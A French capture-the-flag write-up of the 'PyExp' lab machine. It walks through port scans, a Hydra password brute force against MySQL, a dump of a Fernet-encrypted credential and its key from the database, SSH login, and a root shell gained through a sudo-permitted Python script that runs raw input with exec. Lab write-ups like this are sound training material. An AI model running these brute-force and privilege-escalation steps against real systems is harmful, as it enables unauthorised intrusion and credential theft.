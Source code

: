 # PyExp

    sudo nmap -p- -sV 192.168.204.118
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.204.118 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.204.118
Scans classiques.

Il n'y a que les ports 3306 (MySQL) et 1337 (SSH) qui sont ouverts. Cela laisse très peu de possibilités. J'ai tenté les credentials par défaut pour MySQL sans succès, et j'ai ensuite lancé Hydra sur l'utilisateur par défaut :

    hydra  -vV  -f  -l root -P  ~/rockyou.txt 192.168.204.118 mysql
    
On obtient un mot de passe, il n'y a plus qu'à l'utiliser pour se connecter à la base de données et la fouiller : 

    mysql  -u root -h 192.168.204.118 -P 3306
    MariaDB [(none)]> SHOW DATABASES;
    MariaDB [(none)]> USE data;
    MariaDB [(none)]> SHOW TABLES;
    MariaDB [data]> SELECT * FROM fernet;

    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | cred | keyy |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    | gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |  
    +--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+  
    1 row in set (0.051 sec)

Le nom de la table est très explicite, Fernet est un module Python de chiffrement et on peut facilement utiliser des sites comme https://asecuritysite.com/tokens/ferdecode pour le déchiffrer.

On essaye les credentials obtenus sur le SSH et cela fonctionne : 

    ssh  -l lucy 192.168.204.118 -p 1337
    cat local.txt

Élévation de privilèges : 

    sudo -l		
> (root) NOPASSWD: /usr/bin/python2 /opt/exp.py

    cat /opt/exp.py
    sudo python2 /opt/exp.py
> uinput = raw_input('how are you?')  
> exec(uinput)

Ce script ne filtre pas du tout les données entrées et exécutera n'importe quelle commande, c'est une injection de commande simplissime. J'ai opté pour la ligne que j'utilise habituellement pour fiabiliser les shells pourris : 
<br /> **"import pty ; pty.spawn('/bin/bash')"**

    ls /root
    cat /root/proof.txt
